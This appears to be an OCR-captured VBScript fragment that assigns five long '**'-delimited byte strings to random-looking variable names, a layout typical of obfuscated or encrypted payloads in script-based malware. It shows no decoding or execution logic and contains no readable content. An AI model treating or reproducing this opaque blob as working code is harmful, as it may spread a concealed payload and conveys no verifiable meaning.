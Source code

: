 ```vbscript
lgbtCtokOf = ("127**251**25**244**15**241**218**28**214**11**133**71**167**244**247**110**235**234**127**79**160**242**40**218**138**212**223**166**123**119**62**211**254**156**213**192**223**68**206**149**115**229**107**43**217**223**80**98**130**211**43**241**35**223**48**186**27**148**253**208**226**105**234**217**76**247**44**184**76**125**176**244**116**185**152**67**246**131**139**167**254**110**71**217**84**149**232**225**178**105**170**94**79**165**225**198**248**75**211**142**178**126**252**15**3**223**169**190**255**84**143**171**106**146**62**79**169**235**244**95**160**163**130**62**31**1**250**76**213**112**16**214**135**203**167**38**241**63**82**62**229**52**236**131**233**203**250**70**130**30**41**119**36**241**63**186**212**49**172**254**217**70**143**46**189**44**137**255**177**101**151**170**39**82**250**78**12**226**103**27**81**30**60**14**204**58**254**39**150**79**230**88**117**26**206**254**108**160**39**87**216**147**248**159**186**101**146**122**82**29**136**95**175**159**2")

lgbttYaFEA = ("0**116**54**205**141**112**60**157**130**255**153**91**47**73**226**60**41**116**6**183**207**38**34**252**207**220**58**49**137**255**217**138**137**103**53**222**193**68**24**159**93**153**147**196**255**220**170**139**212**62**33**239**251**10**246**35**77**132**243**185**85**23**39**241**239**90**125**161**250**133**170**97**255**226**43**216**143**52**17**254**93**149**23**38**241**239**174**202**230**184**117**26**206**126**164**137**48**190**8**204**58**254**61**174**11**146**216**79**125**5**251**145**38**194**73**152**207**225**31**25**58**135**127**100**233**28**254**145**165**193**248**95**118**143**231**184**191**9**251**191**30**99**194**172**227**111**243**100**169**122**57**219**227**127**74**16**97**214**241**119**86**219**212**212**162**235**166**214**207**6**74**45**157**213**231**157**195**255**23**166**212**146**130**255**194**174**26**107**82**62**156**143**145**164**212**210**229**179**170**105**105**105**63**7**254**137**123**125**99**7**244**13**231**103**164**4")

lgbtZ63Qyb = ("0**181**188**238**179**168**102**179**153**254**55**226**228**95**175**59**187**240**171**95**82**215**11**97**30**63**126**252**83**192**127**233**91**254**140**1**125**131**117**135**27**239**127**67**127**174**79**189**16**230**9**19**38**112**252**111**7**198**168**169**101**56**31**35**73**122**33**204**58**254**253**117**38**53**181**12**231**99**36**104**112**249**231**160**41**137**255**64**112**212**16**26**103**119**249**237**250**209**58**254**201**239**132**210**213**223**31**234**254**70**209**59**27**44**244**252**62**73**251**231**110**119**154**250**203**74**73**125**114**149**65**125**124**165**164**62**86**97**80**31**227**92**39**209**94**105**208**234**186**76**239**79**246**165**182**207**68**134**20**26**162**93**33**165**244**73**3**250**30**175**32**140**146**250**220**154**116**181**83**185**144**246**207**199**232**252**218**35**75**234**175**188**76**221**35**27**212**221**238**255**105**231**74**131**154**186**162**240**125**75**66**194**38**22**196**10**46*")

lgbtYCGqMG = ("*84**70**180**184**189**4**6**35**2**162**2**22**161**150**86**80**107**21**217**151**20**67**8**97**167**3**9**14**69**17**117**112**173**168**128**69**169**214**186**32**84**233**184**84**166**34**162**83**151**97**183**160**163**224**176**4**40**51**181**192**140**211**219**243**94**88**34**133**250**187**83**78**230**123**231**158**115**207**57**247**220**115**111**146**247**227**190**7**8**98**57**2**142**240**53**144**175**177**50**219**30**225**172**94**43**107**117**4**103**199**249**232**232**199**67**249**48**31**182**101**227**15**141**85**17**109**138**235**246**186**226**235**17**66**206**174**42**105**46**190**255**213**124**206**190**40**244**67**28**35**205**198**185**145**62**184**66**105**137**43**149**239**179**255**95**223**177**247**15**21**82**2**87**203**40**92**163**32**112**67**44**137**27**149**128**56**2**56**200**113**208**78**208**3**25**120**60**31**55**37**25**224**166**20**99**220**148**172**229**141**201**134**184**41**81**31**55**196**211**96**167**69*")

lgbtZGNM0X = ("*67**28**53**33**216**216**13**108**252**120**22**160**3**52**38**240**160**77**227**206**60**119**60**112**61**21**55**171**45**184**113**186**139**252**240**224**77**21**248**209**56**69**113**0**123**200**95**226**224**152**50**92**165**182**195**15**18**184**251**255**195**108**254**213**209**20**126**156**100**138**95**22**108**192**157**103**253**113**119**190**59**238**201**119**195**61**133**158**184**231**148**39**215**238**62**230**136**123**78**174**198**189**32**107**142**56**0**236**176**230**168**4**119**159**88**137**123**78**184**98**205**113**103**220**125**220**101**8**206**19**66**243**141**4**119**29**88**132**53**135**25**220**125**136**129**246**98**192**18**220**185**127**1**238**218**63**31**119**229**66**31**232**53**160**215**28**4**126**88**132**187**143**46**131**241**37**184**122**143**15**126**150**189**8**63**221**35**194**143**98**40**54**255**117**0**189**230**4**36**122**18**131**112**109**188**30**110**128**122**214**39**10**113**125**60**15**215**197")

```